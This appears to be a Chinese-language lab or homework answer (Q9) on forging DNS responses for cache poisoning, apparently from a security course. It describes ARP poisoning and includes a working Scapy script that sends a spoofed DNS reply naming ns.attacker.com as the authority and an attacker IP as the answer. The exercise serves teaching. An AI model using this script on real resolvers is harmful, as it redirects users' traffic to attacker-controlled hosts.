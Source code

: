 ------

### **Q9. 伪造 DNS 响应包**

#### **任务要求**

在攻击脚本中完成伪造 DNS 响应包的逻辑，包括：

1. 随机生成 `transactionID`。
2. 构造伪造的 DNS 响应包，包含以下字段：
   - 回答部分 (`Answer Section`)：目标域名的伪造 IP 地址（攻击者控制的 IP）。
   - 权威部分 (`Authority Section`)：伪造权威 DNS 服务器（如 `ns.attacker.com`）。
   - 附加部分 (`Additional Section`)：伪造权威服务器的 IP 地址。

#### **文档相关信息**

文档中提到的 **DNS Cache Poisoning** 和 **poison.py** 脚本正是完成这类攻击的关键步骤：

1. **ARP Poisoning**：通过欺骗 DNS 服务器的 ARP 表，使其将 DNS 查询转发给攻击者。

2. 伪造响应包

   ：

   - 使用 Python 的 `Scapy` 库构造 DNS 响应。
   - 伪造的响应包括：
     - `transactionID` 随机生成，匹配 DNS 请求。
     - 包含伪造的权威 DNS 信息。

#### **步骤实现**

1. 伪造 DNS 响应包

   的代码示例：

   ```python
   from scapy.all import *
   import random
   
   def forge_dns_response(transaction_id, query_name, attacker_ip):
       # 构造伪造的 DNS 响应
       dns_response = IP(dst="10.10.10.53", src="8.8.8.8") / \
                      UDP(sport=53, dport=33333) / \
                      DNS(
                          id=transaction_id,
                          qr=1, aa=1, rd=1,
                          qd=DNSQR(qname=query_name),
                          an=DNSRR(rrname=query_name, rdata=attacker_ip),
                          ns=DNSRR(rrname="test.com", rdata="ns.attacker.com"),
                          ar=DNSRR(rrname="ns.attacker.com", rdata=attacker_ip)
                      )
       send(dns_response, verbose=0)
   
   # 示例调用
   forge_dns_response(transaction_id=random.randint(0, 65535), query_name="random.test.com", attacker_ip="10.10.10.10")
   ```

